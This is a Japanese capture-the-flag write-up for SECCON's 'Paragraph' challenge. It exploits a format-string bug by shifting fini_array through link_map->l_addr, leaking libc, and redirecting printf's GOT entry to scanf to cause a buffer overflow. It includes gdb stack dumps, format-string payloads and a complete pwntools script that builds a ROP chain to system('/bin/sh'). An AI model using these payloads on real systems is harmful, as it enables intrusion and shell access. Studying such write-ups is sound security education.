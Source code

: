 # Paragraph

数行のソースコードがコンパイルされたバイナリ
```c
#include <stdio.h>

int main() {
  char name[24];
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);

  printf("\"What is your name?\", the black cat asked.\n");
  scanf("%23s", name);
  printf(name);
  printf(" answered, a bit confused.\n\"Welcome to SECCON,\" the cat greeted %s warmly.\n", name);

  return 0;
}
```
printf()によるFSBがあり、その後もう一回printfを呼んでいる。
またscanfで読み込めるのは23bytesであるため、FSBもこの文字数の制約を受ける。

ここで配布された環境のlibc内ではscanfとprintfがかなり近い場所にあるので、printfのgot領域の下位2bytesをscanfのアドレスに書き換えた場合、
2回目のprintfで変数nameに対して%sで読み込むことができるのでBOFが引き起こせそうである。
```
$ objdump -d -M intel ./libc.so.6
...
000000000005fe00 <__isoc99_scanf@@GLIBC_2.7>:
...
00000000000600f0 <_IO_printf@@GLIBC_2.2.5>:
```
libcリークはしていないので、4bitのbruteforceで(1/16の確率)うまくprintfをscanfに書き換えることができる。

が、この解法を思いついたときにはすでにlibcリークをしながら2回目のmain関数に飛ぶことができていた。
それが以下のpayloadである。
(以下のwriteupを参考にした、見つけきてくれた@k1_zuna氏ありがとう)
https://project-euphoria.dev/problems/imaginary-ctf-2022-format-string-fun/

```
payload = b'%*38$p%8$n%33$hn' # just 16 bytes!
payload += p64(0x404ec8)[:-1]
```
上記ペイロードを送った際ののprintf実行時のstackは以下のような状況である。
(環境によって若干違うと思われるがリモートでも刺さったので主要なところは問題ないはず)

```
gef> x/40gx $rsp
0x7fffffffe100: 0x3825702438332a25      0x6e68243333256e24 <-- 6,7
0x7fffffffe110: 0x0000000000404ec8      0x00007fffffffe248 <-- 8,9
0x7fffffffe120: 0x00007fffffffe1c0      0x00007ffff7dd51ca
0x7fffffffe130: 0x00007fffffffe170      0x00007fffffffe248
0x7fffffffe140: 0x00000001003ff040      0x0000000000401196
0x7fffffffe150: 0x00007fffffffe248      0x86b8dca51a2db154
0x7fffffffe160: 0x0000000000000001      0x0000000000000000
0x7fffffffe170: 0x0000000000000000      0x00007ffff7ffd000
0x7fffffffe180: 0x86b8dca51bcdb154      0x86b8cce07aafb154
0x7fffffffe190: 0x00007fff00000000      0x0000000000000000
0x7fffffffe1a0: 0x0000000000000000      0x0000000000000001
0x7fffffffe1b0: 0x0000000000000000      0x97f079bd8aba1800
0x7fffffffe1c0: 0x00007fffffffe220      0x00007ffff7dd528b
0x7fffffffe1d0: 0x00007fffffffe258      0x00007ffff7ffe2e0 <-- 32, 33
0x7fffffffe1e0: 0x00007fff00000000      0x0000000000401196
0x7fffffffe1f0: 0x0000000000000000      0x0000000000000000
0x7fffffffe200: 0x00000000004010b0      0x00007fffffffe240 <-- 38, 39
```

'%*38\$p%8\$n'で0x4010b0(_startのアドレス)を0x0404ec8のアドレスに書き込みながら(理由は後述)、第一引数を%pで出力している。
この時のrsiはlibc内のアドレスをたまたま指しているのでlibcリークもできる。
残りの部分の'%33$hn'では0x10b0を0x7ffff7ffe2e0に書き込んでいる。
さて0x7ffff7ffe2e0には何があるかというと、_rtld_globalが指すlink_map->l_addrである。
https://elixir.bootlin.com/glibc/glibc-2.40.9000/source/include/link.h#L95

```
gef> x/10gx &_rtld_global
0x7ffff7ffd000 <_rtld_global>:  0x00007ffff7ffe2e0      0x0000000000000004
0x7ffff7ffd010 <_rtld_global+16>:       0x00007ffff7ffe5d8      0x0000000000000000
0x7ffff7ffd020 <_rtld_global+32>:       0x00007ffff7fbd280      0x0000000000000000
0x7ffff7ffd030 <_rtld_global+48>:       0x0000000000000000      0x0000000000000001
0x7ffff7ffd040 <_rtld_global+64>:       0x0000000000000000      0x0000000000000000
gef> x/10gx 0x7ffff7ffe2e0
0x7ffff7ffe2e0: 0x0000000000000000      0x00007ffff7ffe8b8
0x7ffff7ffe2f0: 0x00000000003ff388      0x00007ffff7ffe8c0
0x7ffff7ffe300: 0x0000000000000000      0x00007ffff7ffe2e0
0x7ffff7ffe310: 0x0000000000000000      0x00007ffff7ffe8a0
0x7ffff7ffe320: 0x0000000000000000      0x00000000003ff398
```

l_addrを書き換えると何が起きるかというと、_dl_call_fini内で呼ぶfini_arrayをずらすことができる。
```
  ElfW(Dyn) *fini_array = map->l_info[DT_FINI_ARRAY];
  if (fini_array != NULL)
    {
      ElfW(Addr) *array = (ElfW(Addr) *) (map->l_addr
                                          + fini_array->d_un.d_ptr);
      size_t sz = (map->l_info[DT_FINI_ARRAYSZ]->d_un.d_val
                   / sizeof (ElfW(Addr)));

      while (sz-- > 0)
        ((fini_t) array[sz]) ();
    }
```
https://elixir.bootlin.com/glibc/glibc-2.39.9000/source/elf/dl-call_fini.c#L23

今回のfini_arrayは0x403e18なので0x10b0を足すと0x404ec8になる。
0x404ec8にはFSBで_startのアドレスを書き込んでいるので、2回目のmain関数が実行可能である。

```
$readelf -S ./chall
...
  [22] .fini_array       FINI_ARRAY       0000000000403e18  00003e18
       0000000000000008  0000000000000008  WA       0     0     8
```

2回目のmainでは先述のprintfのgot領域をscanfに変える手法を使う。
libcリークをすることにより、scanfとprintfの下位3byte目が一致しない場合を除いてexploitが刺さるようになった。
(理論上15/16の確率だが、実際には%cで出力する文字数が多すぎると失敗しているような感じがする)

```python
#!/usr/bin/python3
from pwn import *
import sys
import time

#config
context(os='linux', arch='i386')
context.log_level = 'debug'

FILE_NAME = "./chall"
#"""
HOST = "paragraph.seccon.games"
PORT = 5000
"""
HOST = "localhost"
PORT = 7777
#"""

if len(sys.argv) > 1 and sys.argv[1] == 'r':
        conn = remote(HOST, PORT)
else:
        conn = process(FILE_NAME)

elf = ELF(FILE_NAME)
addr_main = elf.symbols["main"]
got_printf = elf.got["printf"]

libc = ELF('./libc.so.6')
off_binsh = next(libc.search(b"/bin/sh"))
off_system = libc.symbols["system"]
off_printf = libc.symbols["printf"]
off_scanf = libc.symbols["__isoc99_scanf"]

off_rdi_ret = 0x0010f75b
fini_array = 0x403e18

def exploit():
        conn.recvuntil(".\n")

        payload = b'%*38$p%8$n%33$hn'
        payload += p64(0x404ec8)[:-1]

        conn.send(payload)
        conn.recvuntil("0x")
        off_gomi = 0x7ffff7f5d8c0 - 0x7ffff7dab000 # remained libc address in rsi
        addr_libc = int(conn.recv(12),16) - off_gomi

        libc_printf = addr_libc + off_printf
        libc_scanf  = addr_libc + off_scanf

        print("[+] addr_libc = "+hex(addr_libc))
        if (libc_printf & 0xff0000) != (libc_scanf & 0xff0000):
                print("[-] fail")
                exit(1)

        payload = b''
        lower_2 = libc_scanf&0xffff
        payload += f'%{lower_2}c%8$hn'.encode()
        payload += b'x'*(16-len(payload))
        payload += p64(got_printf)[:-1]
        conn.recvuntil(".\n")
        conn.send(payload)

        fmt = b" answered, a bit confused.\n\"Welcome to SECCON,\" the cat greeted "
        fmt += b'x'*0x28
        fmt += p64(addr_libc+off_rdi_ret+1)
        fmt += p64(addr_libc+off_rdi_ret)
        fmt += p64(addr_libc+off_binsh)
        fmt += p64(addr_libc+off_system)
        fmt += b" warmly.\n\x00"
        conn.recvuntil("(@@")
        conn.send(fmt)

        conn.interactive()

if __name__ == "__main__":
        exploit()

```
